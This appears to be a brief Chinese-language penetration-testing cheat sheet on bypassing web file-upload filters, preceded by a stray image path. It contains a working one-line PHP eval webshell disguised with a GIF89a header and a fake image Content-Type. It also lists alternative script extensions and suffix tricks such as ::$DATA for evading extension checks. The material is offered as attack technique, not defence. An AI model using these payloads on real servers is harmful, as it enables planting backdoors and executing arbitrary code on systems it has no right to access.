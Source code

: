 ## 文件内容检测绕过
```
文件头：Content-Type: image/jpeg
文件内容：
 GIF89a?
 <?php
 Eval($_POST["pass"]);
(有可能会检测文件内容，例如不允许有危险函数eval)
```
## 文件后缀检测绕过
- 后缀大小写：```
PHP文件: Php、PHP、pht、php5、phtml、shtml
JSP文件: jspx、jspf
ASP文件: asa、cer、cdx
ASPX文件: ascx、ashx、asac```
- 后缀添加特殊字符：`空格、::$DATA、.,$,/.,等字符`